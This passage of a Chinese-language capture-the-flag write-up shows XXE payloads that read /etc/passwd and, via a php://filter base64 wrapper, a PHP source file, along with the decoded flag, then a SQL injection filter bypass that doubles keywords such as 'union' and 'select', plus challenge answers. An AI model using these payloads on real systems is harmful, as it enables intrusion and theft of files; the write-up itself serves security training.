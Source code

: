 
```xml
<!-- 读/etc/passwd测试 -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY flag SYSTEM "file:///etc/passwd" >]>
<root class="object">
	<name type="number">&flag;</name>
	<request type="string">flag</request>
</root>

<!-- 直接读文件会读不到 -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY flag SYSTEM "file:///var/www/html/_f14g_Is_Here_.php" >]>
<root class="object">
	<name type="number">&flag;</name>
	<request type="string">flag</request>
</root>

<!-- 利用php://伪协议读php内容 -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY flag SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/_f14g_Is_Here_.php" >]>
<root class="object">
	<name type="number">&flag;</name>
	<request type="string">flag</request>
</root>
```
返回信息
```json
{"response":"我很想告诉你的，可惜你只是我的PD9waHANCiAgICAkZmxhZz0iU3lje3czYUtfUGhwX2FOZF9YeEV9Ijs="}
```
base64解码后得到flag
```
Syc{w3aK_Php_aNd_XxE}
```

<br/>

### 11.李三的代码审计笔记第二页

> 出题人：cl0und
> 听说李三用这个裁剪他的头像，http://ctf1.redteam.today:8233/www.zip
> 地址:http://ctf1.redteam.today:8233/

附件下载：www.zip

<br/>

### 12.Babysql
> 出题人：cl4y
> 成信大的学生真是不得了，这么多黑客，不过这次我做了防御的！
> 地址:http://118.25.14.40:8102/

对危险字符进行过滤，替换为空，这里双写绕过就好，payload参考lovelysql（第9题），使用下面方法替换password
```python
def doubleKeyword(str):
    str = str.replace("union","ununionion")
    str = str.replace("select","seselectlect")
    str = str.replace("from","frfromom")
    str = str.replace("or","oorr")
    str = str.replace("where","whwhereere")
    str = str.replace("and","anandd")
    return str
```
得到flag
```
Syc{Cl4y_w4ngt5_A_g1rlfri3nd}
```